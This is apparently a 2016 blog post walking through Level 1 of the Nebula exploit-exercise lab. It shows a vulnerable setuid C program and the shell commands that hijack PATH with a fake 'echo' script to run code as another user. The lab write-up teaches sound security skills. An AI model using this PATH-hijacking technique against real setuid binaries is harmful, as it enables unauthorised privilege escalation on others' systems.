 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 1"
date:   2016-07-30 12:32:00 +0200
categories: security exercises
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
~~~

Let's start by looking at the file on the file system.

~~~ bash
level01@nebula:~$ ls -la /home/flag01/flag01
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
~~~

We'll quickly spot that it has the setuid bit set and is owned by the `flag01` user, so no matter which user actually starts the binary, it will run as the `flag01` user. This is good for us, and something we'll eventually exploit.

The weakness might be obvious to you if you're familiar with the Linux command line. The `system` call in the end relies on `/bin/env` to set environment variables. We can exploit this by modifying the environment variables prior to executing the program.

Let's prepare a small script that runs the `getflag` command. Put the following content in a file called `echo` in the home directory of the `level01` user:

~~~ bash
#!/bin/sh
getflag
~~~

Now let's set the `PATH` variable to include `level01`s home directory and run the script:

~~~ bash
level01@nebula:~$ export PATH="/home/level01:$PATH"
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
~~~


What happened here was that we added another directory to the `PATH` variable, which the system uses to look for binaries. You can easily see what happened by using the `which` command:

~~~ bash
level01@nebula:~$ /usr/bin/env which echo
/home/level01/echo
~~~

The `flag01` binary was coded assuming that it will always call the system `echo`. By changing `PATH`, it will instead run our version and execute `getflag` as the user `flag01`.
